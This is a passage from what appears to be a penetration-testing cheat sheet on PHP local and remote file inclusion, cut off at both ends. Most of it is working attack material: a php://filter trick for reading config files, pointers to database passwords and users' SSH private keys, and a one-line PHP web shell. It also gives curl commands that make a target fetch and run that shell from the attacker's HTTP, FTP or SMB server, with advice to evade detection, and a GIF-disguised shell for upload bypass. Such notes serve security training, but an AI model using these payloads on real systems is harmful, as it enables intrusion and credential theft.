 	curl www.example.com/index.php?lang=php://filter/read=convert.base64-encode/resource=config
	echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
	```
---
## From LCI to RCE
> [!Note]
> - `/etc/php/X.Y/apache2/php.ini` for Apache (`X.Y` is the PHP version installed).
> - `/etc/php/X.Y/fpm/php.ini` for Nginx.
> - Search for DB password in `config.php` and check for password reuse.
> - Check `.ssh` directory on each user home directory for their private keys `id_rsa`.
### Remote File Inclusion:
- Any RFI vulnerability is also an LFI vulnerability, but an LFI may not necessarily be an RFI. Check [Read, Write and Execute Functions](#read-write-and-execute-functions)
- How to verify a RFI:
	- If the server is running PHP in the back-end ?
		- Check `allow_url_include` setting on `php.ini`, (not reliable cause the vulnerable function may not allow remote URLS)
		- Try to include a local URL `http://127.0.0.1:80/index.php` to see firewall reaction.
			- Don't include the vulnerable page as this can cause recursive inclusion loop which may lead to DoS on the server.
- **Remote Code Execution with RFI**
	- Create a malicious script:
		``` bash
		echo '<?php system($_GET["cmd"]); ?>' > shell.php
		```
	- Host the malicious script and use common HTTP ports to avoid detection then visit the infected page:
		- Python
			``` bash
			sudo python3 -m http.server <LISTENING_PORT>
			# Visit the URL on the browser:
			curl "http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id"
			```
		- FTP
			``` bash
			sudo python -m pyftpdlib -p 21
			# Visit the URL on the browser (If the server uses anonymous creds):
			curl "http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id"
			# If the server requires creds:
			curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
			```
		- SMB (If the vulnerable web application is hosted on a Windows server)
			``` bash
			impacket-smbserver -smb2support share $(pwd)
			# Visist the URL on the browser:
			curl "http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami"
			```
### File Uploads
- GIF Image Upload
	- Craft the malicious Image and upload it.
		``` bash
		echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif